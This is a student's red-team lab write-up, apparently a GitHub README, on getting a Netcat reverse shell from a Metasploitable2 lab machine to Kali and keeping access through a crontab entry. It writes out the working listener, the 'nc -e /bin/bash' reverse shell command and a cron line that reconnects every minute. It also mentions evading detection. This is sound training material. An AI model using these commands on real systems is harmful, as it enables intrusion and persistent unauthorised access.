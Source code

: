 ## Lab07 – Netcat Reverse Shell & Crontab Persistence
## Description
In this lab, we achieved a reverse shell from Metasploitable2 to Kali Linux using Netcat and then maintained persistent access via crontab. This technique demonstrates a real-world post-exploitation scenario where the attacker regains access even after system reboots.

## Target System
OS: Metasploitable2

IP: 192.168.56.101

Attacker (Kali) IP: 192.168.56.102

## Exploitation Steps

🔹 Step 1: Start a Netcat listener on the attacker (Kali) machine
bash
Copy
Edit
nc -lvnp 4444

🔹 Step 2: Execute a reverse shell on the victim (Metasploitable2)
bash
Copy
Edit
nc -e /bin/bash 192.168.56.102 4444
Note: nohup was not available in the system, so raw Netcat reverse shell was used.

🔹 Step 3: Verify shell access on Kali
Once connected:

bash
Copy
Edit
whoami
hostid
ip a

Persistence via Crontab
🔹 Step 4: Edit crontab on Metasploitable2
bash
Copy
Edit
crontab -e

🔹 Step 5: Add the following line to create a persistent reverse shell every minute:
bash
Copy
Edit
* * * * * nc -e /bin/bash 192.168.56.102 4444
    
## Screenshots

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.02.43.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.26.30.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.45.13.png)

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab07/Screen%20Shot%202025-06-08%20at%2017.45.54.png)

## What I Learned
How reverse shells work with Netcat (nc -e /bin/bash)

The concept of incoming vs outgoing connections and attacker-listener logic

How to maintain persistence via scheduled tasks (cron jobs)

Basic Linux post-exploitation persistence methods

Importance of avoiding common detection (e.g., disabling nohup makes attackers try fallback methods)

